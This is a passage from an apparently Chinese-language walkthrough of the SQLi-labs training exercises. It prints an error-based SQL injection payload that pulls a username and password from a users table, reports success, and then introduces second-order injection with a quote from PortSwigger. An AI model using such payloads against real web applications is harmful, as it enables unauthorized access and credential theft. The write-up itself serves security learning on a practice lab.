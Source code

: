 提取 Payload：

```
?id=1' and (select 123 from (select count(*),concat((select concat(username,'~',password) from users limit 0,1),'~',floor(rand(14)*2)) x from (select 1 union all select 2) as t group by x) x) and '1'='1
```

![image-20220512133709602](image-20220512133709602.png)

成功

## Less-24

提示 second degree injections ，但谷歌没有找到这个说法，但有另一个说法叫 second-order injection。摘自 portswigger：

> Second-order SQL injection arises when user-supplied data is stored by the application and later incorporated into SQL queries in an unsafe way. To detect the vulnerability, it is normally necessary to submit suitable data in one location, and then use some other application function that processes the data in an unsafe way.

再看页面：

![image-20220512134251988](image-20220512134251988.png)
